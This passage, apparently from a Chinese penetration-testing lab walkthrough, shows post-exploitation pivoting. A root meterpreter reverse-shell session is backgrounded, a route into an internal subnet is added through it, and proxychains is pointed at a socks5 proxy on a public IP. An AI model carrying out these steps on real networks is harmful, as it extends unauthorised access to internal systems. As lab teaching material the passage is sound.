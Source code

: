 公网服务器上可以看到9999端口监听:`netstat -pantu |grep 9999`

![image-20211013162340617](assets/image-20211013162340617.png)



添加路由`route add 192.168.201.0 255.255.255.0 3`

```shell
meterpreter > background                           #保存会话
[*] Backgrounding session 3...
msf6 exploit(multi/handler) > sessions          #查看会话id

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  3         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:34434 (::1)

msf6 exploit(multi/handler) > route                 #查看路由，当前没有路由
[*] There are currently no routes defined.
msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 3     #为192.168.201.0网段添加路由
[*] Route added
msf6 exploit(multi/handler) > route                #查看路由，添加成功

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.201.0      255.255.255.0      Session 3

[*] There are currently no IPv6 routes defined.
msf6 exploit(multi/handler) >

```



kali主机shell上：修改/etc/proxychains4.conf文件，添加如下一行：

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf
[sudo] kali 的密码：

添加如下一行：Centos的socks5代理映射到了公网ip：175.24.115.4的9999端口上
socks5 175.24.115.4 9999

```
